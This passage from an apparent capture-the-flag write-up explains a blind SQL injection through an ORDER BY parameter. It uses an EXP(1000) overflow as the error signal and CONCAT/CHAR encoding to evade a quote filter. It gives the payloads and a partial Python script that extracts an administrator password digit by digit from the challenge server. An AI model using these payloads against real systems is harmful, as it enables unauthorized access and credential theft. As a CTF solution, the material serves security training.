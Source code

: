 ```sql
SELECT username, publicnote FROM users ORDER BY (
    CASE WHEN username != 'Administrator' OR password LIKE '0%' THEN 1 ELSE exp(1000) END
) ASC;
```

Some knowledge of logic comes handy. Asking if an account being `Administrator` implies `0` is in the password, is equivalent to asking if all accounts are either not `Administrator` (normal users) or their passwords contain `0`. The query successfully returns some results only if the check is passed on all records in the `user` table, hence the "for all" quantifier.

Enough maths. Since the filter forbids quotes, we'll finally replace all the strings with `CONCAT` and `CHAR` functions.

```sql
SELECT username, publicnote FROM users ORDER BY (
    CASE WHEN username != CONCAT(CHAR(65), CHAR(100), CHAR(109), CHAR(105), CHAR(110), CHAR(105), CHAR(115), CHAR(116), CHAR(114), CHAR(97), CHAR(116), CHAR(111), CHAR(114)) 
    OR password LIKE CONCAT(CHAR(48), CHAR(37)) THEN 1 ELSE EXP(1000) END
) ASC;
```

Now if we send the payload to the server and it doesn't crash and returns us some results, we'd know the admin's password starts with `0`.

### Solution
1. Prepare a list of possible characters in the password. In this case it's just the decimal digits (`0 ~ 9`), as hinted by the source code.
2. Start with an empty string $s$. Craft our payload, for each character $c$, to check if the password begins with $s \,\Vert\, c$.
3. If the response status code is `200 OK`, remember the corresponding character, and append it to $s$.
4. Repeat until you have the entire password, login as admin and do hax

```python
import requests

character_list = '0123456789'

cookies = {
    'token': 'YWFhOmFhYQ=='
}

headers = {
    'Accept': '*/*',
    'Accept-Language': 'en-US,en;q=0.5',
    'Referer': 'http://chal-a.hkcert23.pwnable.hk:28107/home',
    'Connection': 'keep-alive',
}

pw = ''
while len(pw) < 16:
    for c in character_list:
        stmt = ''
        for char in pw:
            stmt += f'CHAR({ord(char)}),'

        stmt += f'CHAR({ord(c)}),CHAR(37)'

        payload = f'username, (case WHEN username != CONCAT(CHAR(65), CHAR(100), CHAR(109), CHAR(105), CHAR(110), CHAR(105), CHAR(115), CHAR(116), CHAR(114), CHAR(97), CHAR(116), CHAR(111), CHAR(114)) or password LIKE CONCAT({stmt}) THEN 1 ELSE EXP(1000) END)'

        params = {
            'noteType': 'public',
            'column': payload,
            'ascending': 'ASC',
```